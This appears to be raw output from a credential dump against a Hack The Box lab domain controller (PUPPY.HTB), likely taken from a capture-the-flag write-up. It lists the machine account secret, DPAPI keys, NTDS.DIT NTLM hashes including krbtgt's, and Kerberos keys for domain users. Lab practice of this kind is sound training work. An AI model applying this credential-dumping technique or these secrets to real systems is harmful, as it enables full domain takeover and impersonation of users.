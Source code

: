 PUPPY\DC$:plain_password_hex:84880c04e892448b6419dda6b840df09465ffda259692f44c2b3598d8f6b9bc1b0bc37b17528d18a1e10704932997674cbe6b89fd8256d5dfeaa306dc59f15c1834c9ddd333af63b249952730bf256c3afb34a9cc54320960e7b3783746ffa1a1528c77faa352a82c13d7c762c34c6f95b4bbe04f9db6164929f9df32b953f0b419fbec89e2ecb268ddcccb4324a969a1997ae3c375cc865772baa8c249589e1757c7c36a47775d2fc39e566483d0fcd48e29e6a384dc668228186a2196e48c7d1a8dbe6b52fc2e1392eb92d100c46277e1b2f43d5f2b188728a3e6e5f03582a9632da8acfc4d992899f3b64fe120e13
PUPPY\DC$:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc21ea457ed3d6fd425344b3a5ca40769f14296a3
dpapi_userkey:0xcb6a80b44ae9bdd7f368fb674498d265d50e29bf
[*] NL$KM 
 0000   DD 1B A5 A0 33 E7 A0 56  1C 3F C3 F5 86 31 BA 09   ....3..V.?...1..
 0010   1A C4 D4 6A 3C 2A FA 15  26 06 3B 93 E0 66 0F 7A   ...j<*..&.;..f.z
 0020   02 9A C7 2E 52 79 C1 57  D9 0C D3 F6 17 79 EF 3F   ....Ry.W.....y.?
 0030   75 88 A3 99 C7 E0 2B 27  56 95 5C 6B 85 81 D0 ED   u.....+'V.\k....
NL$KM:dd1ba5a033e7a0561c3fc3f58631ba091ac4d46a3c2afa1526063b93e0660f7a029ac72e5279c157d90cd3f61779ef3f7588a399c7e02b2756955c6b8581d0ed
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<HIDDEN>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
PUPPY.HTB\levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
PUPPY.HTB\ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
PUPPY.HTB\adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
PUPPY.HTB\jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
PUPPY.HTB\steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
PUPPY.HTB\steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c0b23d37b5ad3de31aed317bf6c6fd1f338d9479def408543b85bac046c596c0
Administrator:aes128-cts-hmac-sha1-96:2c74b6df3ba6e461c9d24b5f41f56daf
Administrator:des-cbc-md5:20b9e03d6720150d
krbtgt:aes256-cts-hmac-sha1-96:f2443b54aed754917fd1ec5717483d3423849b252599e59b95dfdcc92c40fa45
krbtgt:aes128-cts-hmac-sha1-96:60aab26300cc6610a05389181e034851
krbtgt:des-cbc-md5:5876d051f78faeba
PUPPY.HTB\levi.james:aes256-cts-hmac-sha1-96:2aad43325912bdca0c831d3878f399959f7101bcbc411ce204c37d585a6417ec
PUPPY.HTB\levi.james:aes128-cts-hmac-sha1-96:661e02379737be19b5dfbe50d91c4d2f
PUPPY.HTB\levi.james:des-cbc-md5:efa8c2feb5cb6da8
PUPPY.HTB\ant.edwards:aes256-cts-hmac-sha1-96:107f81d00866d69d0ce9fd16925616f6e5389984190191e9cac127e19f9b70fc
PUPPY.HTB\ant.edwards:aes128-cts-hmac-sha1-96:a13be6182dc211e18e4c3d658a872182
PUPPY.HTB\ant.edwards:des-cbc-md5:835826ef57bafbc8
PUPPY.HTB\adam.silver:aes256-cts-hmac-sha1-96:670a9fa0ec042b57b354f0898b3c48a7c79a46cde51c1b3bce9afab118e569e6
PUPPY.HTB\adam.silver:aes128-cts-hmac-sha1-96:5d2351baba71061f5a43951462ffe726
PUPPY.HTB\adam.silver:des-cbc-md5:643d0ba43d54025e
PUPPY.HTB\jamie.williams:aes256-cts-hmac-sha1-96:aeddbae75942e03ac9bfe92a05350718b251924e33c3f59fdc183e5a175f5fb2
PUPPY.HTB\jamie.williams:aes128-cts-hmac-sha1-96:d9ac02e25df9500db67a629c3e5070a4
PUPPY.HTB\jamie.williams:des-cbc-md5:cb5840dc1667b615
PUPPY.HTB\steph.cooper:aes256-cts-hmac-sha1-96:799a0ea110f0ecda2569f6237cabd54e06a748c493568f4940f4c1790a11a6aa
PUPPY.HTB\steph.cooper:aes128-cts-hmac-sha1-96:cdd9ceb5fcd1696ba523306f41a7b93e
PUPPY.HTB\steph.cooper:des-cbc-md5:d35dfda40d38529b
PUPPY.HTB\steph.cooper_adm:aes256-cts-hmac-sha1-96:a3b657486c089233675e53e7e498c213dc5872d79468fff14f9481eccfc05ad9
PUPPY.HTB\steph.cooper_adm:aes128-cts-hmac-sha1-96:c23de8b49b6de2fc5496361e4048cf62
PUPPY.HTB\steph.cooper_adm:des-cbc-md5:6231015d381ab691
DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30